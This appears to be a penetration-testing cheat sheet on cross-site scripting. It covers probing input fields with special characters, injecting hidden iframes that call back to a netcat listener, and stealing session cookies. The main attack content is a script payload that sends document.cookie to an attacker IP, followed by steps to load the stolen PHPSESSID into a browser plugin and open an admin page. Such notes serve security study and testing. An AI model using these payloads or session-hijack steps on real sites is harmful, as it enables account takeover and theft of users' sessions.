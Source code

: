 # Cross Site Scripting \(XSS\)

## Enumerating XSS

### **Find Input Fields**

Input fields may be found in the following examples:

* Search boxes
* Comments
* Post
* Forms

**Try inserting special characters to see if they are not filtered:**

```text
< >; ' " { } ;
```

* &lt; &gt;; = denote elements in HTML
* ' " = denote strings on JavaScript
* {} = function declarations of JavaScript
* ; = end of a statement on JavaScript

**If this character are not removed or encoded then it might be vulnerable to XSS:**

* URL Encoding
* HTML Encoding

**Then we might be able to code since we can use this special characters!**

### Content Injection 

If we want to place content in the website and the site is vulnerable to XSS then we may be able to use some techniques to "inject" malicious content to the website.

#### iframe Method

The HTML &lt;iframe&gt; embeds another file within the current HTML document

```text
<iframe src=http://192.168.119.134/report height="0" width="0"></iframe>
<iframe src=http://192.168.119.134/report height=”0” width=”0”></iframe>
```

**The quotes ' " can affect this.**

Visit/Refresh the webpage that has the code and click on the iframe to receive connection back with:

```text
sudo nc -lvnp 80 
```

### Stealing Cookies

**Cookies can be set with several option flags:**

* Secure = Instructs the browser to only send the cookie over encrypted connections, such as HTTPS. 
* HttpOnly = Instructs the browser to deny JavaScript access to the cookie. If it set to **FALSE** we can use an XSS payload to steal the cookie.

#### Stealing Cookies Methodology

Setup a nc listener with the following command:

```text
nc -lvnp 80
```

Create the payload to capture the victim's cookie**:**

```text
<script>new Image().src="http://192.168.10.10/filename.jpg?output="+document.cookie;</script>
```

Add the cookie from the netcat into the Cooke-Editor Plugin:

{% embed url="https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/?src=search" %}

Cookie Editor Plugin &gt; Add &gt; Name: PHPSESSID Value: &lt;cookie\_value&gt; -&gt; Save

**Visit the administrator page**

```text
/admin-page.php
```

 

